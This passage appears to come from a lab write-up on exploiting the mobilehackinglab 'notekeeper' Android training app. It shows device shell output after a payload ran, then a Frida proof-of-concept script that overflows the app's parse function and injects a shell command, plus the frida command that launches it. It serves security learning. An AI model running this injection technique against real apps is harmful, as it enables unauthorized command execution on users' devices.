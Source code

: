 



<br /><br />

The payload has executed successfully.

```bash
star2qltechn:/data/data/com.mobilehackinglab.notekeeper # ls
cache code_cache files id.txt

star2qltechn:/data/data/com.mobilehackinglab.notekeeper # cat id.txt
uid=10069(u0_a69) gid=10069(u0_a69) groups=10069(u0_a69),3003(inet),9997(everybody),20069(u0_a69_cache),50069(all_a69) context=u:r:untrusted_app:s0:c69,c256,c512,c768
```





<br /><br />

**Frida script PoC**

 a Frida script to exploit the buffer overflow vulnerability:

```javascript
Java.perform(function() {
    
    var MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');

    
    MainActivity.parse.implementation = function(str) {
        console.log("Input: " + str);
        
        const payload = JavaString.$new("a".repeat(120) + "; ls /data/data/com.mobilehackinglab.notekeeper > /data/data/com.mobilehackinglab.notekeeper/ls.txt;");

        console.log("Payload: " + payload);
        
        const result = this.parse(payload);

        console.log("Return Value: " + result);

        return result;
    };
});
```

<br />

```java
frida -U -f com.mobilehackinglab.notekeeper -l frida.js
```

